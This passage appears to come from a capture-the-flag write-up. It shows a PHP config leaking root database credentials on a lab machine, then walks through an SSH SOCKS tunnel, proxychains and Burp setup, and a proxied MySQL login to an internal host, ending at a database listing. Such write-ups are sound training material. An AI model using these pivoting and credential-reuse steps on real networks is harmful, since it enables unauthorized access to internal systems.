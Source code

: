 

    <?php
    $servername = "db";
    $username = "root";
    $password = "2108@C00l";
    $dbname = "static";
    ?>



#### Tunneling

To check out the rest of the network, I'll use SSH as a socks proxy with
the `-D 9001` option. This will have my host listen on 9001 as a proxy.
This enables setting FoxyProxy in FireFox or using `proxychains` with
tools on my host, and from a networking point of view, it's as if they
are coming from within the network on web.

At the end of `/etc/proxychains.conf`, I'll configure it to use this
proxy:



    [ProxyList]
    socks4  127.0.0.1 9001



I'll also configure a proxy in Burp, in the User Options --\>
Connections tab, under SOCKS Proxy:

![](/img/image-20210803093428048.png)

Now any traffic going through Burp will then go through the SSH tunnel
and then to its destination.

#### db

With creds to the DB, I'll connect using `mysql` and `proxychains` from
my host:



    oxdf@parrot$ proxychains mysql -h 172.20.0.11 -u root -p2108@C00l static
    ProxyChains-3.1 (http://proxychains.sf.net)
    |S-chain|-<>-127.0.0.1:9001-<><>-172.20.0.11:3306-<><>-OK
    ...[snip]...

    MariaDB [static]>



There's not a lot here. static is the only DB of interest, and there's
only one table with one row:



    MariaDB [static]> show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | mysql              |
    | performance_schema |
    | static             |
    +--------------------+
    4 rows in set (0.020 sec)
